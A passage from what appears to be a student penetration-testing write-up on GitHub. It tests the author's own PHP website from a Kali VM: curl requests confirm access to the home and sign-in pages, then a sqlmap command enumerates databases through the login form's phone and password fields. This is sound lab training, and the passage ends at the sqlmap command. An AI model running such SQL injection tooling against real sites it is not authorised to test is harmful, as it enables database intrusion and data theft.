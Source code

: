 *Fig: 3.2.5*

### 3.3.	 Performing Attack & Findings

At first, we need to check can we access the website from attacker machine (kali) to victim machine (windows). 
To check this, run the command in the terminal:
```
curl http://<windows_vm_ip>/yourwebsite
```
```
curl http://198.168.213.130/CSE370_Project-main/home.php
```
![Access the website from kali machine](https://github.com/AbuHanifSiam/SQLi-Injection-Testing-on-a-Website/blob/d2980f3745beaba8900d027c0d00b147aaaf16d5/SQLi%20Pentest/Picture8.png)

*Fig: 3.3.1*

After running the command, if there come html as a output (fig: 3.3.1), it means it can track the website from attacking machine. 

Now we will findout the vulnerable page in this website. We will try on those page where user need to gives input. So we will try on signin page. To doing the attack automate, we used sqlmap. 

In attack machine, run the command:
```
curl http://198.168.213.130/CSE370_Project-main/signin.php
```
![Sign in PHP page](https://github.com/AbuHanifSiam/SQLi-Injection-Testing-on-a-Website/blob/d2980f3745beaba8900d027c0d00b147aaaf16d5/SQLi%20Pentest/Picture9.png)

*Fig: 3.3.2*

By running this command (fig: 3.3.2), we get an idea which type of info we can apply for SQL Injection. As those credintials in fig mention to login page. After that run the command: 
```
sqlmap -u http://198.168.213.130/CSE370_Project-main/signin.php  --data="phone=123456&password=anything" –dbs
```                        